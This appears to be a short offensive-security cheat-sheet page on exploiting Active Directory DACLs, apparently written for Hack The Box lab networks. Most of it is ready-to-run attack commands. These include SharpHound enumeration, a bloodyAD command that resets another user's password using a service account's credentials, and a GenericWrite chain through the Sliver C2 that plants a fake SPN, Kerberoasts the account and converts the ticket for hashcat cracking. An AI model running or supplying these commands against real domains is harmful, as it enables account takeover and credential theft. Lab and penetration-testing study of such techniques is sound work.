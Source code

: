 ```yaml
---
description: Exploit a DACL or Discretionary Access Control List.
---
```


# DACL

A DACL (Discretionary Access Control List) is a list of ACEs which are Access Control Entries. This specifies which users or groups are allowed or denied access to computers, smb shares other user account.

#### Use sharphound

```sh
sharp-hound-4 -- -c All --zipfilename academy 
```

Then run SharpHound

```sh
execute-assembly SharpHound.exe -c all
```

With rights change password

```sh
proxychains4 -q bloodyAD --host 172.16.1.15 -d child.htb.local  -u svc_sql -p 'jkhnrjk123!' set password david 'Password123!
```

### <mark style="color:yellow;">GenericWrite via Sliver</mark>

Setup a fake SPN on target, the use c2tc-kerberoast from Sliver to attack

```sh
# Set SPN
proxychains bloodyAD --host 172.16.1.15 -d child.htb.local -u david -p 'Password123!' set object websec servicePrincipalName -v fake/web01.child.htb.local

# Kerberoast
c2tc-kerberoast roast websec

# Convert ticket to a hash
python3 TicketToHashcat.py websec-ticket.enc
```
